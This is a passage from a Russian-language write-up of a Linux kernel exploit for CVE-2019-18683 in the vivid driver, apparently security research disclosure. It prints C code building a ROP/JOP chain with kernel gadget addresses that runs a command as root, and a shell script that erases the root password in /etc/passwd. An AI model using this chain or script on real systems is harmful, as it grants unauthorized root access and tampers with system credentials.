 ```c
#define ROP__PUSH_RDI__POP_RSP__pop_rbp__or_eax_edx__RET 0xffffffff814725f1
#define ROP__POP_R15__RET 0xffffffff81084ecf
#define ROP__POP_RDI__RET 0xffffffff8101ef05
#define ROP__JMP_R15 0xffffffff81c071be
#define ADDR_RUN_CMD 0xffffffff810b4ed0
#define ADDR_DO_TASK_DEAD 0xffffffff810bf260

unsigned long *rop = NULL;
char *cmd = "/bin/sh /home/a13x/pwn"; /* rewrites /etc/passwd to drop root password */
size_t cmdlen = strlen(cmd) + 1; /* for 0 byte */

/* mem_priv is the arg for vaddr() */
vplane = vbuf->vb.vb2_buf.planes;
vplane->mem_priv = (void *)(kstack - TIMEX_STACK_OFFSET + ROP_CHAIN_OFFSET);

rop = (unsigned long *)(timex_addr + ROP_CHAIN_OFFSET);
printf("   rop chain will be at %p, userspace %p\n", vplane->mem_priv, rop);

strncpy((char *)timex_addr + CMD_OFFSET, cmd, cmdlen);
printf("   cmd will be at %lx, userspace %p\n",
	(kstack - TIMEX_STACK_OFFSET + CMD_OFFSET),
	(char *)timex_addr + CMD_OFFSET);

/* stack will be trashed near rop chain, be careful with CMD_OFFSET */
*rop++ = 0x1337133713371337; /* placeholder for pop rbp in the pivoting gadget */
*rop++ = ROP__POP_R15__RET + kaslr_offset;
*rop++ = ADDR_RUN_CMD + kaslr_offset;
*rop++ = ROP__POP_RDI__RET + kaslr_offset;
*rop++ = (unsigned long)(kstack - TIMEX_STACK_OFFSET + CMD_OFFSET);
*rop++ = ROP__JMP_R15 + kaslr_offset;
*rop++ = ROP__POP_R15__RET + kaslr_offset;
*rop++ = ADDR_DO_TASK_DEAD + kaslr_offset;
*rop++ = ROP__JMP_R15 + kaslr_offset;

printf(" [+] the payload for kernel heap and stack is ready. Put it.\n");
```

Сначала данная ROP-цепочка загружает адрес ядерной функции `run_cmd()` из `kernel/reboot.c` в регистр `R15`. Затем в регистр `RDI` загружается адрес строки с shell-командой, которая будет выполнена с привилегиями суперпользователя. Через регистр `RDI` данный адрес будет передан функции `run_cmd()` в качестве аргумента. Затем в ROP-цепочке выполняется несколько JOP-операций (Jump-Oriented Programming). Выполняется прыжок на `run_cmd()`, которая выполняет команду `'/bin/sh /home/a13x/pwn'` от пользователя root. Запускаемый скрипт переписывает `/etc/passwd`, позволяя без пароля войти в систему как пользователь root:

```sh
#!/bin/sh
# drop root password
sed -i '1s/.*/root::0:0:root:\/root:\/bin\/bash/' /etc/passwd
```

В конце ROP-цепочка выполняет прыжок на ядерную функцию `__noreturn do_task_dead()` из `kernel/exit.c`. Это делается для восстановления состояния системы после эксплуатации уязвимости (некоторые называют это system fixating). В противном случае, если данный ядерный поток не остановить, он приведет к нежелательному падению ядра.


[0]: https://nvd.nist.gov/vuln/detail/CVE-2019-18683
[0.1]: https://www.offensivecon.org/speakers/2020/alexander-popov.html
[0.2]: https://elixir.bootlin.com/linux/v5.4/source/drivers/media/platform/vivid
[1]: https://youtu.be/mb4YHyLy0Zc
[1.1]: https://www.kernel.org/doc/html/latest/media/v4l-drivers/vivid.html
[2]: https://www.openwall.com/lists/oss-security/2019/11/02/1
[3]: https://github.com/google/syzkaller/
[4]: https://lore.kernel.org/lkml/CAHk-=wgE-veRb7+mw9oMmsD97BLnL+q8Gxu0QRrK65S2yQfMdQ@mail.gmail.com/
[5]: https://lore.kernel.org/lkml/20200116140218.1328022-1-alex.popov@linux.com/T/#u
[6]: https://lore.kernel.org/lkml/20200116095220.7368a604@gandalf.local.home/
[7]: https://lore.kernel.org/lkml/20200117225900.16340-1-alex.popov@linux.com/T/#u
[9]: https://duasynt.com/blog/linux-kernel-heap-spray
[10]: https://twitter.com/andreyknvl
[11]: https://github.com/xairy
[12]: https://www.ptsecurity.com/ww-en/
[13]: https://grsecurity.net/features
[14]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety